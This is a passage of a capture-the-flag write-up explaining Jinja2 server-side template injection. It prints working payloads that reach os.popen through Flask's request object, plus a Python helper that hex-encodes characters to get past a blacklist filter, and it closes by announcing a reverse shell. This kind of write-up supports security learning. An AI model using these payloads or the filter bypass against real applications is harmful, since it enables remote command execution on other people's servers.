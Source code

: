 It would seam that this box is using the methods detailed in this paper as its inspiration.  The answer is given to us, but I took another few hours to dive into the topic to understand what is happening and how this works. 

>In real PenTests and Bug Bounty situations the answer may need adjustments made.
{: .prompt-info }

### Python Internals

My understanding of this code is we're using `requests` object that is available in this processing of our `GET` request on the server. Then we use this to traverse up the object tree within `Python` to the `globals` and finally down to the `builtins` functions of Python classes. From here this is the same as writing `from os import popen` within the Python interpreter or Python script.

```python
{% raw %}{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}{% endraw %}
```

Now that we know how to run raw Python code using the `Jinja2` templating engine we have to get past the character blacklist.
Below is the function I wrote to replicate the code given in the research post. We need to prepend `\x` to inform `Jinja2` that this is written in `hex` and not the string `5f`.

```python
str(bytes(str(i).encode('utf-8')).hex())
```

Explaining the code above; we take a single letter and encode it to `utf-8`. This insures Python know exactly what character it is, then we turn it into bytes, once it is in bytes we are able to convert it to hex. Finally, we prepend `\x` to our hex value and turn the whole thing into a string.

```python
def utf8_encode(string):
    _tmp = ''
    for i in string:
        if i in ['.','[',']','_']:
            _tmp += r'\x' + str(bytes(str(i).encode('utf-8')).hex())
        else:
            _tmp += i
    return _tmp.replace(' ','%20')
{% raw %}
CMD = 'id'
string_to_encode = "{{request|attr('application')|attr('__globals__')|attr('__getitem__')('__builtins__')|attr('__getitem__')('__import__')('os')|attr('popen')('COMMAND')|attr('read')()}}".replace('COMMAND',CMD)
print(utf8_encode(string_to_encode)){% endraw %}
```

```python
{% raw %}{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}{% endraw %}
```

Testing this command we are able to see the OS `id` command in our error page response.  We'll update our payload to get a reverse shell.
